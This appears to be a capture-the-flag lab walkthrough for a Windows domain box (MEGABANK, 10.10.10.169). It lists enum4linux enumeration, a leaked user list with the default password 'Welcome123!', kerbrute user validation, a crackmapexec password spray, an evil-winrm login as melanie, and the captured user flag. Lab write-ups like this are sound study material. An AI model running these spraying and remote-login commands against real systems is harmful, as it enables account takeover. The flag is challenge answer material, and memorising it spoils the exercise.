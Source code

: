 ```
enum4linux -a 10.10.10.169
```

```
Domain Name: MEGABANK                                                         
Domain Sid: S-1-5-21-1392959593-3013219662-3596683436
```

We got the userlist as well as Password
![[Pasted image 20240506055923.png]]

User
```
marko
```

Password
```
Welcome123!
```


```
Administrator
Guest
krbtgt
DefaultAccount
ryan
marko
sunita
abigail
marcus
sally
fred
angela
felicia
gustavo
ulf
stevie
claire
paulo
steve
annette
annika
per
claude
melanie
zach
simon
naoki
```

Let's check if the users are valid with kerbrute and 24 are valid out of 27 
```
kerbrute userenum -d megabank.local --dc 10.10.10.169 Valid_user.txt -t 100
```
![[Pasted image 20240506060316.png]]


Password Policy
![[Pasted image 20240506060741.png]]


Let's see who uses the default password 
```
crackmapexec smb 10.10.10.169 -u Valid_user.txt -p Welcome123!
```
![[Pasted image 20240506061134.png]]
user: melanie uses the default password

```
evil-winrm -u melanie -p 'Welcome123!' -i 10.10.10.169
```
![[Pasted image 20240506061412.png]]
User Flag
```
2381d46ef2566c000d1184a57ca5f5f4
```


